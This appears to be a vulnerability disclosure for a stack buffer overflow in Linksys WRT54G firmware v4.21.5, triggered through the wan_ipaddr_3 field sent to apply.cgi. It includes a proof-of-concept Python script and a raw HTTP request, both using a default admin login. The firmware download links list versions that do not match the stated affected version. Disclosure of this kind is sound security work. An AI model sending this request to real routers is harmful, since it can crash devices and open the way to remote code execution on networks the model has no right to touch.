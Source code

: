 # Overview
Firmware download website: [https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.5](https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.5)
[https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.8](https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.8)

# Affected version
Linksys WRT54G Firmware v4.21.5
# Vulnerability details
The Linksys WRT54G Firmware v4.21.5 has a stack overflow vulnerability in get_merge_ipaddr function. The variable `wan_ipaddr_%d`receives the parameter from a POST request.  In line 15, the stract function will merge it with the variable a2. It is important to note that in the calling function, the a2 variable is stack-allocated and has a size of only 24 characters. If the variable exceeds this length, it can result in a buffer overflow vulnerability, potentially leading to remote code execution or denial-of-service attacks.  
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723521727425-1957b2ba-9c9f-41d8-8963-76fe8c56665f.png#averageHue=%23fdfdfb&clientId=ub288f58f-c669-4&from=paste&height=261&id=u99def465&originHeight=441&originWidth=807&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=36998&status=done&style=none&taskId=u2e84555d-1993-4576-b80f-0073081d4bd&title=&width=477.33331298828125)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723521761103-57d645c2-fb74-4cfd-a2a3-18f94747b6cc.png#averageHue=%23fcfcfb&clientId=ub288f58f-c669-4&from=paste&height=451&id=ubf5700a3&originHeight=732&originWidth=715&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=84978&status=done&style=none&taskId=ud54a6890-036f-40e6-9df0-09bc09bdd27&title=&width=440.5555419921875)
# POC
```python
import requests

url = 'http://192.168.1.1/apply.cgi'
headers = {
    'Host': '192.168.1.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.1.1',
    'Authorization': 'Basic OmFkbWlu',
    'Connection': 'close',
    'Referer': 'http://192.168.1.1/WanMAC.asp',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1',
}

payload = ('submit_button=WanMAC&change_action=&submit_type=&action=Apply&wan_proto=1&wan_ipaddr=3&wan_ipaddr_0=1.1.1.1&wan_ipaddr_1=2.2.2.2&wan_ipaddr_3=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&wan_netmask=2.2.2.2')

response = requests.post(url, headers=headers, data=payload)

print('Status:', response.status_code)
print('Response:', response.text)

```
```c
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 197
Origin: http://192.168.1.1
Authorization: Basic OmFkbWlu
Connection: close
Referer: http://192.168.1.1/WanMAC.asp
Upgrade-Insecure-Requests: 1
Priority: u=1

submit_button=WanMAC&change_action=&submit_type=&action=Apply&wan_proto=1&wan_ipaddr=3&wan_ipaddr_0=1.1.1.1&wan_ipaddr_1=2.2.2.2&wan_ipaddr_3=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&wan_netmask=2.2.2.2
```
